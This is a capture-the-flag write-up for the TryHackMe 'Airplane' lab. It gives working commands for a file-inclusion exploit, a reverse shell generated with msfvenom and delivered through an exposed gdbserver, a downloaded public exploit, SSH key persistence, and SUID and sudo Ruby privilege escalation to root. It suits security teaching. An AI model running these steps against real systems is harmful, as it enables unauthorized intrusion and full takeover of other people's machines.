



# Airplane - TryHackMe Writeup


**Difficulty:** Medium  
**TL;DR:** LFI → Process Discovery → GDB Server RCE → SUID Find → Sudo Ruby → ROOT
--------------------------------------

## Target
- Machine: `airplane.thm`
- Date: 2025-5-12
- Environment: TryHackMe / CTF
--------------------------------------


## Steps:

### 1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn -p22,6048,8000 airplane.thm


22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http    Werkzeug httpd 3.0.2 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.2 Python/3.8.10
| http-title: About Airplanes
|_Requested resource was http://airplane.thm:8000/?page=index.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 2. Initial Access:

#### Web Application Analysis
The web application was accessible at `http://airplane.thm:8000` with the main page loading via `?page=index.html` parameter.


#### LFI Vulnerability Discovery
Noticed the page parameter was vulnerable to Local File Inclusion:
```bash
curl http://airplane.thm:8000/?page=../../../../etc/passwd
```

Successfully retrieved the /etc/passwd file, confirming LFI vulnerability.


Retrieved the application source code:
```bash
curl http://airplane.thm:8000/?page=../app.py
```

app.py:
```python
from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)

@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')
        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False
            if os.path.getsize(page) == 0:
                resp.headers["Content-Length"]=str(len(resp.get_data()))
            return resp
        else:
            return "Page not found"
    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)

@app.route('/airplane')
def airplane():
    return render_template('airplane.html')
```
The application was vulnerable to directory traversal through the `page` parameter.

#### Process Enumeration

Used LFI to enumerate running processes and environment:

Get current process command line:
```bash
curl http://airplane.thm:8000/?page=../../../../proc/self/cmdline > cmdline.txt

cat cmdline.txt                                                                
#/usr/bin/python3app.py
```

Get environment variables:
```bash
curl http://airplane.thm:8000/?page=../../../../proc/self/environ > environ.txt

cat environ.txt                                                                
#USER=hudson, HOME=/home/hudson
```

```bash
curl "http://airplane.thm:8000/?page=../../../../proc/self/status"

#Pid: 537, Uid: 1001
```


#### Critical Discovery - GDB Server

Manually enumerated nearby processes and discovered:
```bash
curl http://airplane.thm:8000/?page=../../../../proc/533/cmdline > cmdline3.txt

cat cmdline3.txt                                                               
#/usr/bin/gdbserver0.0.0.0:6048airplane
```
Found `gdbserver` running on port 6048, bound to all interfaces, debugging a binary called "airplane".


*About the service*:
```txt
gdbserver is a control program for Unix-like systems, which allows you to connect your program with a remote GDB via target remote or target extended-remote
```


### 3. Expolitation

GDB Server was misconfigured to allow remote connections without authentication, enabling remote code execution.


1. Generate Payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 PrependFork=true -o rev.bin
```

2. Setup Listener:
```bash
nc -lnvp 4444
```

3. Donwload a public exploit: 
```bash
wget https://www.exploit-db.com/raw/50539 -O gdb_exploit.py
```

4. Execute Exploit:
```bash
python3 gdb_exploit.py airplane.thm:6048 rev.bin
```

5. Shell Upgrade:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Successfully obtained a reverse shell as user `hudson`.

### 4. Latireal Movment

#### Privilege Escalation to Carlos
Enumerated SUID binaries:
```bash
find / -perm -4000 2>/dev/null 

#/usr/bin/find
```
Found `/usr/bin/find` with SUID bit set.

```bash
ls -la /usr/bin/find

#-rwsr-xr-x 1 carlos carlos 320160 Feb 18  2020 /usr/bin/find
```
owned by user `carlos`.

Exploited SUID find:
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit

$ id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)
```
Successfully escalated to user `carlos`:

#### User Flag
```bash
cat /home/carlos/user.txt

[REDACTED]
```

For more stable access, set up SSH keys:
```bash
# On attacker machine
cat ~/.ssh/id_rsa.pub | xclip -selection clipboard

# On target machine
echo '[YOUR_PUBLIC_KEY]' > /home/carlos/.ssh/authorized_keys

# Connect via SSH
ssh -i ~/.ssh/id_rsa carlos@airplane.thm
```
### 5. Privilege Escalation

Checked sudo permissions:
```bash
sudo -l

#User carlos may run the following commands on airplane:
#    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
User `carlos` could execute Ruby scripts in `/root` directory as root without password.


#### Exploitation
Created a Ruby script to spawn a root shell:
```bash
echo 'exec "/bin/sh"' > shell.rb

sudo /usr/bin/ruby /root/../home/carlos/shell.rb
```
Used path traversal to execute our script from the home directory.

#### Root flag
```bash
cat /root/root.txt

[REDACTED]
```


## Lessons Learned:
- LFI can lead to process information disclosure
- GDB server exposed to network is dangerous
- Always check for SUID binaries and sudo privileges
- Ruby with wildcard in sudo can be exploited

## Prevention:
- Don't expose gdbserver to network
- Restrict LFI vulnerabilities  
- Principle of least privilege for sudo
- Regular security audits
